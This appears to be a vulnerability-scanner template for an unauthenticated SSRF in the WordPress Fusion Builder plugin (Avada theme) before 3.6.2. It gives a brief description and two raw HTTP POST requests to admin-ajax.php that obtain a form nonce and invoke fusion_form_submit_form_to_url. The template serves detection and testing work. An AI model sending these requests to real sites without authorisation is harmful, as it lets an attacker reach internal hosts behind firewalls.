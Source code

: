 - part - header
- words
  1. application/octet-stream

---

# WordPress Fusion Builder \< 3.6.2 - Unauthenticated SSRF

## Description

- The plugin, used in the Avada theme, does not validate a parameter in its forms which could be used to initiate arbitrary HTTP requests. The data returned is then reflected back in the application's response. This could be used to interact with hosts on the server's local network bypassing firewalls and access control measures.

- severity - critical
- tags - wpscan,cve,cve2022,wordpress,ssrf,themefusion,wp,fusion,avada

## Requests

### Step - 1

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: {{BaseURL}}
Referer: {{RootURL}}

action=fusion_form_update_view

```

### Step - 2

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data; boundary=---------------------------30259827232283860776499538268
Origin: {{BaseURL}}
Referer: {{RootURL}}

-----------------------------30259827232283860776499538268
Content-Disposition: form-data; name="formData"

email=example%40example.com&fusion_privacy_store_ip_ua=false&fusion_privacy_expiration_interval=48&priva
cy_expiration_action=ignore&fusion-form-nonce-0={{fusionformnonce}}&fusion-fields-hold-private-data=
-----------------------------30259827232283860776499538268
Content-Disposition: form-data; name="action"

fusion_form_submit_form_to_url
-----------------------------30259827232283860776499538268
Content-Disposition: form-data; name="fusion_form_nonce"

{{fusionformnonce}}
-----------------------------30259827232283860776499538268
Content-Disposition: form-data; name="form_id"

0
-----------------------------30259827232283860776499538268
```